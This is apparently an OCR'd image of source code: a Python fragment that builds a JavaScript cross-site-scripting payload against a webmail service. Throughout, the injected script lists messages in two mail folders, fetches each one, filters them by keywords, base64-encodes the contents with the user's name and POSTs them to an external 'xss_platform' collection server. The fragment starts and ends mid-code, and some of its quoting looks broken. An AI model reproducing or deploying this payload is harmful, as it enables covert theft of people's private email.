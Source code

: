```python
                max_page = data1.changeMultiPage.totalPages;
                for(var a in data1.scripts){
                all_email.push(data1.scripts[a].id); } }
                if(max_count>=all_email.length || max_count==0 ){
                max_count=all_email.length;}
                for(var i=0;i<max_count;i++ ){
                xmlhttp3=new XMLHttpRequest();
                eurl = EURL + decodeURIComponent('%26ReturnJavaScript=1%26ContentType=JavaScript%26FolderID=0%26Number=') + all_email[i];
                xmlhttp3.open('GET',eurl,false);
                xmlhttp3.send(null);
                email_response = xmlhttp3.responseText;
                var flag = 0;
                if(key_words.length==0){flag=1;}
                for(var k in key_words){
                if(email_response.match(key_words[k])!=null){flag=1;}}
                if(flag==0){continue;}
                var to_send = 'a=' + window.btoa(encodeURIComponent(email_response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
                server = ' ''' + xss_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to_send); }}catch(error){}
            '''

send = '''
                try{                                
                newURL1 = currentURL.replace(/BlankMessageBody/,'List');
                EURL = currentURL.replace(/BlankMessageBody/,'Message');
                var all_email = new Array();
                var max_count = ''' + str(max_count_send) + ''';
                var key_words =''' + keywords_send + ''';
                var max_page = 1;
                var page=1;
                for(page;page<max_page+1;page++){
                xmlhttp2=new XMLHttpRequest();
                url1 = newURL1 + decodeURIComponent('%26ReturnJavaScript=1%26FolderID=9%26Page=') + page
                xmlhttp2.open('GET',url1,false);
                xmlhttp2.send(null);
                response1 = xmlhttp2.responseText;
                data1 =JSON.parse(response1);
                max_page = data1.changeMultiPage.totalPages;
                for(var a in data1.scripts){
                all_email.push(data1.scripts[a].id); } }
                if(max_count>=all_email.length || max_count==0 ){
                max_count=all_email.length;}
                for(var i=0;i<max_count;i++ ){
                xmlhttp3=new XMLHttpRequest();
                eurl = EURL + decodeURIComponent('%26ReturnJavaScript=1%26ContentType=JavaScript%26FolderID=9%26Number=') + all_email[i];
                xmlhttp3.open('GET',eurl,false);
                xmlhttp3.send(null);
                email_response = xmlhttp3.responseText;
                var flag = 0;
                if(key_words.length==0){flag=1;}
                for(var k in key_words){
                if(email_response.match(key_words[k])!=null){flag=1;}}
                if(flag==0){continue;}
                var to_send = 'a=' + window.btoa(encodeURIComponent(email_response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
```